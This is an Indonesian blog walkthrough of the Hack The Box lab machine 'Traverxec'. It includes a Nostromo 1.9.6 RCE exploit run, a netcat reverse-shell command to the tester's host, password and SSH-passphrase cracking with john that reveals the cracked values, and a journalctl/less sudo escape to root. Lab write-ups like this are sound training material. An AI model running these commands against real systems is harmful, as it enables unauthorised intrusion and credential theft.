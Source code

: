 ```yaml
---
layout: post
title:  "Traverxec – [Hack The Box] Walkthrough"
date:   2020-09-06 13:35:57 +0700
categories: pentest
tags: [Pentest]
---
```

![traverxec_banner](/assets/images/traverxec/banner.png "Traverxec Banner")
## Hack The Box?

Berhubung ini adalah artikel pertama yang saya buat di blog ini, maka saya akan sedikit menjelaskan dulu apa itu Hack The Box.

> Hack The Box is an online platform allowing you to test your penetration testing skills and exchange ideas and methodologies with thousands of people in the security field.

Singkatnya, HTB adalah online platform yang memungkinkan kita untuk menguji kemampuan penetration testing pada lab yang telah disediakan dan akan selalu di perbaharui.  
Selain menyediakan lab untuk meretas machine, HTB juga mempunyai beberapa tantangan lainnya, contohnya Capture The Flag (CTF).  
Nah kali ini saya akan membahas salah satu machine yang bernama Traverxec.

## Machine Details
- OS : Linux
- Difficulty : Easy
- Points : 20
- Release : 16 Nov 2019
- IP : 10.10.10.165

### Reconnaisance & Enumeration
Pertama lakukan enumerasi menggunakan nmap untuk mendapatkan informasi lebih lanjut tentang service yang tersedia pada machine ini.

```bash
nmap -sV -sC 10.10.10.165
```

Setelah menunggu, berikut adalah hasil yang didapatkan dari nmap.

![walk-1](/assets/images/traverxec/1.png)

Terdapat beberapa service yang terbuka yaitu SSH dan HTTP dan menggunakan Nostromo v.1.9.6 sebagai web servernya. Saat web dibuka ternyata hanya menampilkan sebuah website statis.

![walk-2](/assets/images/traverxec/2.png)

Setelah mencari tau lebih lanjut tentang nostromo 1.9.6 ternyata server yang digunakan mempunyai bug Directory Traversal yang bisa mengarah ke serangan RCE via crafted HTTP request.  
Referensi : [CVE-2019-16278](https://www.cvedetails.com/cve/CVE-2019-16278/).

### Gaining Access
Kebetulan sudah ada exploit yang dibuat oleh seorang pentester yang bisa di dapatkan di  
[exploit-db nostromo 1.9.6 – Remote Code Execution](https://www.exploit-db.com/exploits/47837). Langsung saja kita jalankan exploit tersebut.

```bash
python cve2019_16278.py 10.10.10.165 80 "uname -a"
```

![walk-3](/assets/images/traverxec/3.png)

Terlihat bahwa server me-response command “uname -a” yang di berikan. Untuk mempermudah maka kita akan lakukan reverse shell ke server tersebut. Pertama listen netcat di local.

```bash
nc -lvp 1131
```

Lalu lakukan reverse shell ke server

```bash
python cve2019_16278.py 10.10.10.165 80 "/bin/nc.traditional -e /bin/sh 10.10.14.76 1131"
```

![walk-4](/assets/images/traverxec/4.png)

Shell sudah terkoneksi, lalu spawn pty shell menggunakan python agar bash lebih enak dilihat

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Sesuai dengan soalnya, pertama kita harus mendapatkan flag user (user.txt) yang terdapat di direktori /home/{user}/

![walk-5](/assets/images/traverxec/5.png)

Namun saat membuka direktorinya ternyata kita tidak mempunyai akses ke direktori tersebut, terpaksa harus mencari cara lain agar bisa mengakses flag tersebut.

![walk-6](/assets/images/traverxec/6.png)

Setelah mencari cari , ditemukan file **.htpasswd** dan **nhttpd.conf** nya di direktori /var/www/nostromo/conf

![walk-7](/assets/images/traverxec/7.png)

Crack htpasswd tersebut menggunakan **john** dengan wordlist **rockyou.txt** dan didapatkan plaintext dari passwordnya si david, yaitu :
**Nowonly4me**

![walk-8](/assets/images/traverxec/8.png)

Lanjut cek isi dari nhttpd.conf nya, dan ditemukan HOMDIRS di /home/public_www dan setelah di cek isinya terdapat ‘protected-file-area’

![walk-9](/assets/images/traverxec/9.png)

![walk-10](/assets/images/traverxec/10.png)

Didalam folder tersebut berisi backup-ssh yang mungkin bisa dipakai untuk login ke ssh target

![walk-11](/assets/images/traverxec/11.png)

Untuk mendapatkan file tersebut ternyata kita bisa melakukan cara lain. Jadi rencana nya nanti kita akan membuat file berdasarkan base64 yang telah di encode tadi lalu di decode kembali agar file nya kembali seperti semula.  
Referensi : [Gzip Base64 Encode](https://stackoverflow.com/questions/42459909/gzip-base64-encode-and-decode-string-on-both-linux-and-windows)

```bash
cat backup-ssh-identity-files.tgz | base64 –w0
```

![walk-12](/assets/images/traverxec/12.png)

Buat file yang berisi base64 tersebut dan men-decode nya seperti semula

```bash
cat encoded_ssh.txt | base64 -d > backup-ssh-identity-files.tgz
```

![walk-13](/assets/images/traverxec/13.png)

Terdapat beberapa file ssh didalam zip, namun key tersebut menggunakan passphare . Untuk crack passphare dari id_rsa tersebut kita bisa menggunakan john. Namun id_rsa harus dirubah menjadi hash terlebih dahulu menggunakan ssh2john.

```bash
python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
```

Lalu crack passphare nya menggunakan wordlist rockyou.txt

```bash
john id_rsa.hash --wordlist=/home/bio/netsec/wordlists/rockyou.txt
```

![walk-14](/assets/images/traverxec/14.png)

Passphare berhasil di dapatkan :  
**hunter** (id_rsa)  
Langsung saja connect ke SSH menggunakan key dan passphare yang sudah di dapatkan.

![walk-15](/assets/images/traverxec/15.png)

Akhirnya, kita berhasil login ke dalam machine tersebut sebagai david, maka flag user berhasil di dapatkan.

![walk-16](/assets/images/traverxec/16.png)

### Privilege Escalation

Nah, sekarang saatnya untuk mendapatkan flag root **(root.txt)** nya yang berada di **/root/**.  
Setelah melihat isi direktori home nya si david, terdapat folder bin yang berisi file script yang sepertinya untuk melihat status dari server webnya.

![walk-17](/assets/images/traverxec/17.png)

Setelah mencari informasi ternyata **journalctl** bisa di eksploitasi, ketika ukuran layar terminal dikecilkan maka output dari file tidak akan tampil seutuhnya dan otomatis menjalankan fungsi/command **“less”** yang bisa digunakan untuk melakukan command didalam shell.

Referensi :
- [GTFOB Less](https://gtfobins.github.io/gtfobins/less/)
- [GTFOB Journalctl](https://gtfobins.github.io/gtfobins/journalctl/)

Karna **journalctl** tadi dijalankan langsung menggunakan sudo (/usr/bin/sudo) maka **journalctl** mempunyai permission dari superuser.

![walk-18](/assets/images/traverxec/18.png)

Akhirnya akses root pun berhasil kita dapatkan, dan selesailah misi kita pada kali ini.

## References
- [CVE-2019-16278](https://www.cvedetails.com/cve/CVE-2019-16278/)
- [Exploit-db nostromo 1.9.6 – Remote Code Execution](https://www.exploit-db.com/exploits/47837)
- [Gzip Base64 Encode](https://stackoverflow.com/questions/42459909/gzip-base64-encode-and-decode-string-on-both-linux-and-windows)
- [GTFOB Less](https://gtfobins.github.io/gtfobins/less/)
- [GTFOB Journalctl](https://gtfobins.github.io/gtfobins/journalctl/)

























